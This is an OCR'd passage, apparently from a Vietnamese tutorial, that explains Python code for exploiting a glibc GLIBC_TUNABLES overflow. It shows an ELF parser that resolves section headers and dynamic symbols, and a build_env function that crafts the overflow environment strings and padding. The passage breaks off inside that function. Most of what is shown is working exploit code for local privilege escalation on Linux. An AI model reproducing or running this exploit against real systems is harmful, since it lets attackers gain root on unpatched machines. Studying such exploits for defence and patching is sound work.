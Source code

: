 ```python
            if self.section_names[shdr["name"] :].split(b"\x00")[0] == name:
                return shdr
        return None

    def section_by_name(self, name):
        s = self.shdr_by_name(name)
        return self.d[s["offset"] : s["offset"] + s["size"]]

    def symbol(self, name):
        name = name.encode()
        dynsym = self.section_by_name(".dynsym")
        dynstr = self.section_by_name(".dynstr")
        sym_size = 24 if self.bits == 64 else 16
        for i in range(len(dynsym) // sym_size):
            pos = i * sym_size
            if self.bits == 64:
                sym = lolstruct(
                    "<LBBHQQ",
                    "name info other shndx value size",
                    dynsym[pos : pos + sym_size],
                )
            else:
                sym = lolstruct(
                    "<LLLBBH",
                    "name value size info other shndx",
                    dynsym[pos : pos + sym_size],
                )
            if dynstr[sym["name"] :].split(b"\x00")[0] == name:
                return sym["value"]
        return None
```
- Lớp để phân tích file ELF
- `__init__`: Đọc file ELF và phân tích header
- `shdr`: Lấy thông tin section header
- `shdr_by_name`: Tìm section header theo tên
- `section_by_name`: Lấy nội dung của section theo tên
- `symbol`: Tìm địa chỉ của một symbol trong file ELF

### 7. Hàm build_env
```python
def build_env(adjust, addr, offset, bits=64):
    if bits == 64:
        env = [
            b"GLIBC_TUNABLES=glibc.mem.tagging=glibc.mem.tagging=" + b"P" * adjust,
            b"GLIBC_TUNABLES=glibc.mem.tagging=glibc.mem.tagging=" + b"X" * 8,
            b"GLIBC_TUNABLES=glibc.mem.tagging=glibc.mem.tagging=" + b"X" * 7,
            b"GLIBC_TUNABLES=glibc.mem.tagging=" + b"Y" * 24,
        ]
        pad = 172
        fill = 47
    else:
        env = [
            b"GLIBC_TUNABLES=glibc.mem.tagging=glibc.mem.tagging=" + b"P" * adjust,
            b"GLIBC_TUNABLES=glibc.mem.tagging=glibc.mem.tagging=" + b"X" * 7,
            b"GLIBC_TUNABLES=glibc.mem.tagging=" + b"X" * 14,
        ]
        pad = 87
        fill = 47 * 2

    for j in range(pad):
        env.append(b"")

    if bits == 64:
```